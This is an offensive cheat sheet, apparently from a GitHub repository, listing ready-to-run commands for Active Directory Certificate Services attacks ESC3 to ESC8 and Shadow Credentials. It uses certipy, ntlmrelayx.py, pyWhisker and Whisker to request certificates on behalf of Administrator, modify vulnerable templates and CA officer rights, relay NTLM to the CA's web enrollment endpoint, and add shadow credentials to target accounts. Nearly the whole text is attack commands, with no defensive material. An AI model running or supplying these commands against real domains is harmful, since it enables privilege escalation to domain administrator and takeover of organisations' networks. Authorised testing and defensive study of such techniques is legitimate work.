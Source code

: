 #### **ESC3 - Certificate Request Agent**
```bash
# Use Certificate Request Agent to request on behalf of others
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template RequestAgent
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template User -on-behalf-of domain\\Administrator -pfx lowpriv.pfx
```

#### **ESC4 - Vulnerable Certificate Template Access Control**
```bash
# Modify vulnerable template
certipy template -u lowpriv@domain.com -p password -template VulnTemplate -save-old
certipy template -u lowpriv@domain.com -p password -template VulnTemplate -configuration SubjectAltRequireUPN=False -configuration SubjectAltRequireDNS=False
```

#### **ESC5 - Vulnerable PKI Object Access Control**
```bash
# Exploit vulnerable CA permissions
certipy ca -u lowpriv@domain.com -p password -dc-ip DC_IP -ca CA_NAME -add-officer lowpriv
```

#### **ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2**
```bash
# Exploit misconfigured CA flag
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template User -alt Administrator@domain.com
```

#### **ESC7 - Vulnerable Certificate Authority Access Control**
```bash
# Exploit CA admin permissions
certipy ca -u lowpriv@domain.com -p password -dc-ip DC_IP -ca CA_NAME -enable-template VulnTemplate
```

#### **ESC8 - NTLM Relay to AD CS HTTP Endpoints**
```bash
# NTLM Relay to Certificate Authority
ntlmrelayx.py -t http://CA_SERVER/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

### **🔐 Advanced Certificate Attacks**

#### **Shadow Credentials**
```bash
# Linux - pyWhisker
python3 pyWhisker.py -d domain.com -u lowpriv -p password -t TARGET_USER --action add
python3 pyWhisker.py -d domain.com -u lowpriv -p password -t TARGET_USER --action list

# Windows - Whisker
.\Whisker.exe add /target:TARGET_USER
.\Whisker.exe list /target:TARGET_USER
```
